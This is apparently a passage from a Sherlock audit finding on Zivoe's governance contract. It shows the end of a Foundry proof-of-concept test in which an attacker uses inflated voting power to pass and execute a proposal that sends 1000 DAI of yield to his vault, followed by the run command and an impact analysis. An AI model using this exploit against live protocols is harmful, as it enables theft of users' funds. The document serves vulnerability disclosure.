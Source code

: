 ```solidity
        hevm.roll(block.number + 1);

        // @@@@@@@@@@@@@@@@@@@@@@@@@@@
        // 13. Finally, Poe executes the attack
        assert(poe.try_executeBatch(address(TLC), targets, values, calldatas, 0, keccak256(bytes(description))));

        // @@@@@@@@@@@@@@@@@@@@@@@@@@@
        // 14. Send all the yield to Poe!
        YDL.distributeYield();
        assertEq(ERC20(DAI).balanceOf(address(YDL)), 0);
        assertEq(ERC20(DAI).balanceOf(poeVault), 1000 ether);
    }
```

Run the test using:

```console
forge test --rpc-url https://mainnet.infura.io/v3/f0d515d2debb4c3eb3ce6ba2b07cd0d3 --match-contract Test_ZivoeGovernorV2 --match-test test_attack -vvvv
```

And verify that the test passes:

<img width="1169" alt="image" src="https://github.com/sherlock-audit/2024-03-zivoe-9oelm/assets/22465806/48c82028-7c89-4de7-b37d-fcae796bc56a">

Each step of the attack is explained in the annotations in the code. Please have a look at them. But to summarize just once more, Poe is able to transfer 1000 DAI from YDL contract to his vault by passing, waiting for, and executing a proposal by using his illegal voting power originating from his vestZVE holdings.

## Impact

- Loss of protocol integrity and dynamics (for ex, when the time comes to voting for an important governance proposal, people will always just stake their ZVE to mathematically exaggerate their voting power, as previously discussed)
- Potentially critical actions including theft of protocol's money might be proposed and executed due to quorum being significantly deflated from the true number.
- It is significantly easier to control (veto/approve) a proposal, because two other tokens that are not included as a part of the quorum calculation can be used to vote.
- The only hurdle is the Timelock contract, which makes an attacker (or a group of attackers in cahoots) wait for about 24 hours given the default deployment setting according to the codebase provided. During these 24 hours, Zivoe labs has a chance to cancel the proposal forcefully.
- However, it is very easy to make it very hard to pass any proposal, because you can't cancel vetos. This again renders protocol's governance very much useless.

## Code Snippet

https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeGovernorV2.sol#L62-L64

## Tool used
